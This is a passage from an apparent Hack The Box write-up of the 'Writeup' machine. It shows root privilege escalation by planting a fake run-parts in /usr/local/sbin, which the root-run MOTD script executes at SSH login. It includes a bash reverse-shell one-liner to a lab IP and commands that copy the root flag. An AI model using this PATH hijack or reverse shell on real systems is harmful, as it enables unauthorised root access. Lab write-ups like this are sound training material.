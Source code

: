 So I tried hijacking this binary instead:

```bash
jkr@writeup:~$ echo 'bash -i >& /dev/tcp/10.10.14.211/9001 0>&1' > /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

The idea behind this exploit is to write a new `run-parts` binary to the `/usr/local/sbin/` directory, which is a higher priority on the path than the usual `run-parts` binary. This means that when the MOTD script triggers our code will be run.

I tried this a few times, watching `pspy` to check if the `echo` command was run as root. One of the issues that I ran into was that the `chmod +x` permissions wouldn't persist after the cleanup script was run, so I had to be fast logging in after modifying it. Another issue was that my replacemenet script didn't seem to trigger unless it had a shebang (which I spotted 0xdf adding after I checked his writeup to make sure I was on the right track).

I tried again, checking the file still existed before I logged in:

```bash
jkr@writeup:~$ echo '#!/bin/sh' > /usr/local/sbin/run-parts
jkr@writeup:~$ echo 'cat /root/root.txt > /tmp/twig' >> /usr/local/sbin/run-parts
jkr@writeup:~$ cat /usr/local/sbin/run-parts
#!/bin/sh
cat /root/root.txt > /tmp/
jkr@writeup:~$ ls -la /usr/local/sbin/run-parts
-rw-r--r-- 1 jkr staff 41 Jul 15 17:27 /usr/local/sbin/run-parts
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

Then I logged in to trigger it, and checked if the flag had been copied:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 15 17:28:17 2021 from 10.10.16.211
jkr@writeup:~$ cat /tmp/twig 
eeba47f60b48ef92b734f9b6198d7226
```

Nice! We have code execution, and can read the flag.

That's the box!

![](/assets/images/blogs/Pasted image 20210715222444.png)

But can we get a root shell?

### Getting a Shell

